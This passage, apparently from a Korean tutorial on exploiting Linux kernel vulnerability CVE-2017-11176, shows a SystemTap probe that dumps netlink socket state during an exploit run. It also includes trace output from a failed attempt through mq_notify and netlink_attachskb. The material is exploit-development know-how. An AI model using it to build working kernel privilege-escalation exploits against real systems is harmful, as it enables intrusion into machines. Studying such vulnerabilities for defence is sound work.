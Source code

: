 ```c
      _stp_printf("- sk->sk_rcvbuf = %d\n", sk->sk_rcvbuf);
      _stp_printf("- sk->sk_refcnt = %d\n", sk->sk_refcnt);

      _stp_printf("- nlk->state = %x\n", (nlk->state & 0x1));

      _stp_printf("-={ dump_netlink_sock: END}=-\n");
    %}

    probe kernel.function ("netlink_attachskb")
    {
      if (execname() == "exploit")
      {
        printf("(%d-%d) [netlink] ==>> netlink_attachskb (%s)\n", pid(), tid(), $$parms)

        dump_netlink_sock($sk);
      }
    }
```

**주의**: 다시, 위 코드는 커널 영역에서 실행되므로 에러가 나면 커널 크래시가 발생한다.

system tap을 **-g**(= guru) 옵션을 줘서 실행하자:

```plaintext
-={ CVE-2017-11176 Exploit }=-
netlink socket created = 3
mq_notify: Bad file descriptor
exploit failed!

(19681-19681) [SYSCALL] ==>> mq_notify (-1, 0x7ffebaa7e720)
(19681-19681) [uland] ==>> copy_from_user ()
(19681-19681) [skb] ==>> alloc_skb (priority=0xd0 size=0x20)
(19681-19681) [uland] ==>> copy_from_user ()
(19681-19681) [skb] ==>> skb_put (skb=0xffff88003d1e05c0 len=0x20)
(19681-19681) [skb] <<== skb_put = ffff88000a0a2200
(19681-19681) [vfs] ==>> fget (fd=0x3)
(19681-19681) [vfs] <<== fget = ffff88003d0d5680
(19681-19681) [netlink] ==>> netlink_getsockbyfilp (filp=0xffff88003d0d5680)
(19681-19681) [netlink] <<== netlink_getsockbyfilp = ffff880036256800
(19681-19681) [netlink] ==>> netlink_attachskb (sk=0xffff880036256800 skb=0xffff88003d1e05c0 timeo=0xffff88003df5bf40 ssk=0x0)

-={ dump_netlink_sock: 0xffff880036256800 }=-
- sk = 0xffff880036256800
- sk->sk_rmem_alloc = 0         // <-----
- sk->sk_rcvbuf = 133120        // <-----
- sk->sk_refcnt = 2
- nlk->state = 0                // <-----
-={ dump_netlink_sock: END}=-

(19681-19681) [netlink] <<== netlink_attachskb = 0
(19681-19681) [vfs] ==>> fget (fd=0xffffffff)
(19681-19681) [vfs] <<== fget = 0
(19681-19681) [netlink] ==>> netlink_detachskb (sk=0xffff880036256800 skb=0xffff88003d1e05c0)
(19681-19681) [netlink] <<== netlink_detachskb
(19681-19681) [SYSCALL] <<== mq_notify= -9
```
